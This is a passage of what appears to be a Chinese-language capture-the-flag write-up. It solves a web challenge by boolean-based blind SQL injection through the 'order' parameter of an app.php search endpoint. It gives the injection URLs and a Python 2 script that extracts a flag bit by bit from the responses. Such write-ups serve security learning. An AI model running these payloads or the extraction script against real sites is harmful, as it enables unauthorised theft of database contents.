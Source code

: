 这样，我们就可以把注入点放在bool那边

```mysql
202.120.7.197/app.php?action=search&keyword=&order=(if((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),name,price))
正常返回，说明flag确实存在这个表内
202.120.7.197/app.php?action=search&keyword=&order=(if(
substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)  
),name,price))
202.120.7.197/app.php?action=search&keyword=&order=(if(ascii(substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),1,1)),name,price))

```

> 切记在测试的时候一定要把&编码！！！坑了好久

```mysql
202.120.7.197/app.php?action=search&keyword=&order=(if((ascii((substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),1,1)))%261),name,price))
```

前者为1的时候，content[32]=='3'

前者为0的时候，content[32]=='2'

```python
#!usr/bin/env python
# -*- coding:utf-8 -*-

import requests

session = requests.session()
headers = {"Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36","Referer":"http://202.120.7.197/","Connection":"close","Accept-Encoding":"gzip, deflate, sdch","Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.6,en;q=0.4,en-GB;q=0.2"}
cookies = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url = "http://202.120.7.197/app.php"
payload="if((ascii((substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),{index},1)))&{bit}),name,price)"

list=[1,2,4,8,16,32,64]#一般不用考虑最高位为1，就只需要7位
result = 0
flag=""
for i in xrange(1,32):
    for bit in list:
        paramsGet={"action":"search","keyword":"",
                   "order":payload.format(index=str(i),bit=bit)}
        res= session.get(url,params=paramsGet,headers=headers,cookies=cookies)
        #print paramsGet
        #print res.content
        if(res.content[32]=="3"):
            result = result|bit
            #print result,bit
    print result
    flag+=chr(result)
    print flag
    result =0 #reset result


```
